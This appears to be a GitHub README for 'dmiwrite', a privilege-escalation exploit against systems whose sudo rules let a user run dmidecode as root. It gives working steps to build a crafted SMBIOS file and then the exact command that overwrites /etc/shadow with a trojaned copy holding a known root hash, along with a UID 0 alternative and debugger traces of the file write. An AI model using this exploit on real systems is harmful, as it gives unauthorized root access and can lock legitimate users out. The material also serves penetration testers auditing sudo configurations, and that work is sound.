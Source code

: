 # Privilege escalation using dmidecode

## Background

One of the most basic privilege escalation strategies is to look for dangerous
sudo configurations. The ability of programs such as vim to execute arbitrary
commands is well known. Wildcards can lend seemingly innocuous commands a
surprising amount of power. Even more dangerous are commands without set
arguments: it is not always remembered that this means the command can be run
with any arguments the user specifies. The capabilities of such commands to
execute other programs, or to read and write sensitive files, must be carefully
investigated.

## Scenario

On a recent engagement, I observed the following sudo configuration:
```
testuser@testhost:~ $ sudo -l

User testuser may run the following commands on testhost:
    (ALL) NOPASSWD: /usr/sbin/dmidecode
```

dmidecode is a utility for reading system hardware information in the
SMBIOS format: a standard maintained by the Distributed Management Task
Force.  https://www.nongnu.org/dmidecode/ is the implementation present
in most Linux distributions, including Debian and Red Hat, and was the
focus of this investigation.

```
testuser@testhost:~ $ /usr/sbin/dmidecode -h
Usage: dmidecode [OPTIONS]
Options are:
 -d, --dev-mem FILE     Read memory from device FILE (default: /dev/mem)
 -h, --help             Display this help text and exit
 -q, --quiet            Less verbose output
 -s, --string KEYWORD   Only display the value of the given DMI string
 -t, --type TYPE        Only display the entries of given type
 -u, --dump             Do not decode the entries
     --dump-bin FILE    Dump the DMI data to a binary file
     --from-dump FILE   Read the DMI data from a binary file
     --no-sysfs         Do not attempt to read DMI data from sysfs files
     --oem-string N     Only display the value of the given OEM string
 -V, --version          Display the version and exit
```

It should be apparent that dmidecode has some powerful I/O capabilities:
note the `--dev-mem` and `--dump-bin` options. By passing a carefully
constructed SMBIOS file as a memory device, we can cause dmidecode to
write nearly arbitrary output to `--dump-bin`.

## Exploit

`dmiwrite` will wrap an input payload in an SMBIOS file that can be read as a
memory device by dmidecode. `--dump-bin` will then cause dmidecode to write the
payload to the destination specified, prepended with 32 null bytes.  These do
not prevent privilege escalation.

## Privilege escalation

We will overwrite `/etc/shadow` with a copy containing a known root
password hash. We can then `su` to root. Of course, this may lock other
users out of the system. In the engagement where I employed this, I used
a separate file read vulnerability to first obtain /etc/shadow, which I
used as a template, and restored /etc/shadow after escalating to root.
Another method is to set the unprivileged account to UID 0 in
/etc/passwd. Your environment and operational needs may vary.

```
make dmiwrite
./dmiwrite trojan_shadow.in evil.dmi
```

Copy `evil.dmi` to the target, then:

```
sudo dmidecode --no-sysfs -d evil.dmi --dump-bin /etc/shadow
```

`trojan_shadow.in` should begin with a newline to prevent the null bytes from
interfering with the first entry.

If the target system is using an older version of dmidecode, you may
need to omit the --no-sysfs option.

## Technical details

Format is 32-bit SMBIOS 2.1.

dmidecode stack trace just prior to file write:

```
#0  write_dump (base=0x20, len=, data=, dumpfile= "/etc/shadow", add=0x0) at util.c:254
#1  dmi_table_dump (buf= "\nroot:", len=) at dmidecode.c:4607
#2  dmi_table (base=0x0, len=, num=0x1, ver=0x20100) at dmidecode.c:4778
#3  smbios_decode (buf= "_SM_", devmem= "evil.dmi", flags=0x1) at dmidecode.c:4887
#4  main (argc=, argv=) at dmidecode.c:5107
```

The 32 byte offset in write_dump is hardcoded space for the SMBIOS entry point
structure and results in an fseek in the dump file to that offset.  This
appears to be unavoidable, but by specifying an entry point length of zero, we
can prevent the second call to write_dump, below, from actually writing out the
entry point structure, filling it with nulls instead.

```
#0  write_dump (base=0x0, len=0x0, data=, dumpfile= "/etc/shadow", add=0x1) at util.c:254
#1  smbios_decode (buf= "_SM_", devmem= "evil.dmi", flags=0x0) at dmidecode.c:4900
#2  main (argc=, argv=) at dmidecode.c:5107
```
